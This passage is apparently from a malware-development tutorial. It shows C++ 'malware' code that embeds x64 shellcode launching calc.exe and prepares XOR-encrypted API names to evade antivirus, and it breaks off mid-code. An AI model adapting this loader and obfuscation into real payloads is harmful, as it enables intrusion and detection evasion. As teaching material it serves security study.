 add XOR decryption:
![deXOR](/assets/images/3/2021-09-06_17-52.png){:class="img-responsive"}

So, the final version of our malware code is:
```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
```